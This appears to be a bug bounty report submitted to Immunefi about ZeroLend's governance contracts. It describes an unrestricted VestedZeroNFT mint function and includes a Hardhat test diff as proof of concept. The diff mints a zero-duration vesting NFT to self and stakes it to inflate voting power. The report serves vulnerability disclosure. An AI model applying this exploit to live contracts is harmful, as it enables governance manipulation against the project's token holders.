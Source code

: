 
# Manipulation of governance is possible by minting to self

Submitted on Sun Mar 03 2024 22:01:59 GMT-0400 (Atlantic Standard Time) by @dontonka for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28987

Report type: Smart Contract

Report severity: Medium

Target: https://github.com/zerolend/governance

Impacts:
- Manipulation of governance voting result deviating from voted outcome and resulting in a direct change from intended effect of original results

## Description
## Brief/Intro
VestedZeroNFT::mint is `accessible to anyone`, so anyone can mint a VestedNFT in the moment. This seems to be against the expected behavior as noted as follow by the `IVestedZeroNFT` interface and seems to warrant `Critical` vulnerability for the vote manipulation exploit this could allow.
```
Mints a vesting nft for a user. This is a privileged function meant to only be called by a contract or a deployer
```

## Vulnerability Details
As indicated, it's possible to mint to self and with no duration (linearDuration = 0 and cliffDuration = 0), which mean already all claimable, and then the attacker can transfer the NFT to the `StakingBonus contract` in order to boost his voting power right away. 

## Impact Details
Manipulation of governance is possible by minting to self a VestedNFT with no duration.

## References
https://github.com/zerolend/governance/blob/main/contracts/vesting/VestedZeroNFT.sol#L63-L100

        
## Proof of concept
## Proof of Concept

Add the following changes in `StakingBonus.test.ts` and run `npm test` command.
The test proove the following:
1) Can mint to self with no duration
2) Boost in voting power confirmed

```diff
     beforeEach(async () => {
       expect(await vest.lastTokenId()).to.equal(0);

-      // deployer should be able to mint a nft for another user
-      await vest.mint(
+      // fund the ant account. This could be earned from a normal vesting NFT or bought on the secondary market, just transfering from deployer here to make this simpler
+      await zero.transfer(ant.address, e18 * 20n);
+      await zero.connect(ant).approve(vest.target, e18 * 20n);
+
+      // Mint from ant account to himself
+      await vest.connect(ant).mint(
         ant.address,
         e18 * 20n, // 20 ZERO linear vesting
         0, // 0 ZERO upfront
-        1000, // linear duration - 1000 seconds
+        0, // linear duration - 0 seconds
         0, // cliff duration - 0 seconds
-        now + 1000, // unlock date
-        true, // penalty -> false
+        0, // unlock date
+        false, // penalty -> false
         0
       );

       expect(await vest.lastTokenId()).to.equal(1);
     });
```


```
-    it("should give a user a bonus if the bonus contract is well funded", async function () {
+    it.only("Any user can mint Vested NFT as long as they own enough $ZERO and boost their voting power.", async function () {
      // fund some bonus tokens into the staking bonus contract
      await zero.transfer(stakingBonus.target, e18 * 100n);

      // give a 50% bonus
      await stakingBonus.setBonusBps(50);

      // stake nft on behalf of the ant
      expect(
        await vest
          .connect(ant)
          ["safeTransferFrom(address,address,uint256)"](
            ant.address,
            stakingBonus.target,
            1
          )
      );

      // the staking contract should've awarded more zero for staking unvested tokens
      // 20 zero + 50% bonus = 30 zero... ->> which means about 29.999 voting power
      expect(await locker.balanceOfNFT(1)).greaterThan(e18 * 29n);
    });
```
